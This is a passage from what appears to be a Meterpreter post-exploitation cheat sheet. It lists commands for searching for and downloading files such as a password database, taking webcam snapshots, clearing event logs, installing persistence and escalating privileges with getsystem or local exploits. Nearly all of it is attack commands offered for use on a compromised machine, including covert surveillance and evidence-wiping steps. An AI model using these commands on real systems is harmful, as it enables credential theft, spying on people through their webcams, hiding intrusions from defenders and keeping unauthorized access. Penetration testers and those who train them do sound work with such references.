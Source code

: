### search / download files
It's also possible to search and download files:
```bash
search -f *.doc
download C:\\password.db
```

### webcam
Access webcams:
```bash
webcam_list
webcam_snap -i <webcam id>
```

### event logs
Clear event logs:
```bash
clearev
```
## Persistence
An quick and easy way to achive persistence is to use the build in persistence script: 

```bash
# default options
run persistence

# check out all the options
run persistence -h
```

## Privilege escalation
In most cases you start with low privileged, and therefore you need to find a way to escalate to higher privileges. The possibility to do this depends if you can find a vulnerability on the system.
If the victim machine is an older or unpatched OS you can try out the automated getsystem scripts, which tries out several methods.

```bash
# load priv extension
use priv

# try out available methods
getsystem
```

If this doesn't work, you can try out the methods manually or use a local exploit.

```bash
#leave session
background

#list exploits
use exploit/-> tab autocompletion
search <keyword> -t exploit
```
